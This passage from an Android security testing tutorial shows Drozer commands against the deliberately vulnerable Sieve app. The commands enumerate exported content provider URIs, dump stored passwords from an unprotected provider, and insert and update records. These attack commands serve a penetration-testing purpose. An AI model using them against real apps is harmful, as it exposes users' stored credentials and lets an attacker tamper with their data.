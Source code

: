 In the example, two content providers are exported, each not requiring any permission to interact with them, except for the `/Keys` path in the `DBContentProvider`. Using this information you can reconstruct part of the content URIs to access the `DBContentProvider`, because it is known that they must begin with `content://`. However, the full content provider URI is not currently known.

To identify content provider URIs within the appliation, Drozer's `scanner.provider.finduris` module should be used. This utilizes various techniques to guess paths and determine a list of accessible content URIs:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.
example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

Now that you have a list of accessible content providers, the next step is to attempt to extract data from each provider, which can be achieved using the `app.provider.query` module:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64
-
encoded)
email: incognitoguy50@gmail.com
```

In addition to querying data, Drozer can be used to update, insert and delete records from a vulnerable content provider:

* Insert record

```
dz> run app.provider.insert content://com.vulnerable.im/messages
                --string date 1331763850325
                --string type 0
                --integer _id 7
```

* Update record

```
dz> run app.provider.update content://settings/secure
                --selection "name=?"
                --selection-args assisted_gps_enabled
                --integer value 0
```
